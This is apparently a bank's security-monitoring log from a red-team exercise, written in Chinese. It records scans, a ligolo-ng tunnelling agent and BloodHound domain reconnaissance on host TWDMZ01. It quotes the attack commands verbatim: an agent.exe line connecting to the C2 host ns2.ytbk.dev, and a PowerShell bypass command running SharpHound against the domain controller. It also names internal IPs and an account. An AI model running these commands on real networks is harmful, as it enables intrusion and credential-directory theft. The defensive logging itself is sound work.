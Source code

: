 ```tree
- 觀測到網段掃描行為(subnet: 10.75.205.0/24, 10.75.215.0/24, 10.75.225.0/24; key port: 53, 80, 88, ,443, 445) via rundll32.exe
13:50 ~ 14:13 hostname:TWDMZ01, EDR偵測17筆高風險事件
- 觀測到持續性網段掃描行為
- 觀測到對場域內DC服務持續性探測行為
- 觀測到新執行檔"Agent.exe"落地，疑似RAT程式，觀察到散佈前C2通道連線測試軌跡
	- C:\Windows\system32\cmd.exe /C .\agent.exe --connect https://ns2.ytbk.dev:443 --ignore-cert
15:19 ~ 15:48 hostname:TWDMZ01
- 觀測到網段掃描行為(subnet: 10.64.14.0/24 ; key port: 53, 80, 88, ,443, 445) via rundll32.exe
```

觀察到散佈前C2通道連線測試軌跡
15:19 ~ 15:48 hostname:TWDMZ01
觀測到網段掃描行為(subnet: 10.64.14.0/24 ; key port: 53, 80, 88, ,443, 445) via rundll32.exe

**銀行監控記錄**
7/10
```tree
09:46 ~ 16:34 hostname:TWDMZ01, EDR偵測14筆高風險事件
- 觀測到本行設備的通訊埠掃描行為(device: 10.75.204.91, 10.75.13.12) via rundll32.exe
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, key port:445 ) via rundll32.exe
- 觀察到針對本行設備通訊埠列舉探測行為
	- (device:10.75.204.44, 10.75.204.152, 10.75.189.7, 10.75.201.90, 10.75.201.90, 10.75.195.10; key ports: 21, 22, 443, 445, ,3389, 8443, 8080) via rundll32.exe
- 觀察到針對本行場域內DC(DC01)服務持續性嘗試探測 via agent.exe
	- agent.exe 具 "ligolo-ng" pivoting tool 特徵，透過突破口靶機與C2: ns2.ytbk.dev 建立tunnel，嘗試對 DC01 port 135, 139, 445 實施監情蒐或攻擊
```

**銀行監控記錄**
7/11
```tree
09:05 ~ 10:00 hostname:TWDMZ01, EDR偵測45筆高風險事件
- 觀察到針對本行場域內DC(DC01)服務持續性嘗試探測 via agent.exe(ligolo-ng)
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, key port:445 ) via rundll32.exe
- 觀察到利用"BloodHound"AD偵搜工具使用軌跡 --> 本行DC01 via BloodHound's psscript
	- powershell -nop -exec bypass -EncodedCommand "
		- . D:\Red_Team\SharpHound.ps1; 
		- Invoke-BloodHound 
		- -Verbose 
		- -Domain 'bank.corp.yuanta.com' 
		- -Username 'BANK\\R930003' 
		- -Password '******' 
		- -DomainController '10.75.215.1' 
		- -OutputDirectory 'D:\Red_Team'"
11:46 ~ 14:05 hostname:TWDMZ01, EDR偵測8筆高風險事件, NDR偵測2筆LDAP告警事件
- 觀察到突破卡靶機已從本行DC01 Root DSE 取得全行整包LDAP資料
	- Filter: 
		- objectClass=*
	- Attributes: 
		- sAMAccountName
		- distinguishedName
		- sAMAccountType
		- objectSid
		- name
- 觀測到本行各分行設備的SMB通訊埠掃描行為（IPs: 7,363） via rundll32.exe
- 觀察到針對本行場域內DC(DC01)服務持續性嘗試探測(key ports: 88, 135, 139, 389, 445, 3268 )via agent.exe( ligolo-ng )
14:05 ~ 15:45 hostname:TWDMZ01
- 觀測到網段掃描行為(subnet: 10.75.215.0/24, key port:445 ) via agent.exe( ligolo-ng)
16:21 ~ 16:46 hostname:TWDMZ01, EDR偵測2筆高風險事件
- 觀測到本行設備的通訊埠掃描行為(device: 10.75.13.12) via rundll32.exe
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, key port:445 ) via rundll32.exe
7/11 hostname:TWDMZ01, 嘗試探測個別設備：
- 10.155.26.1
- 10.155.26.2
```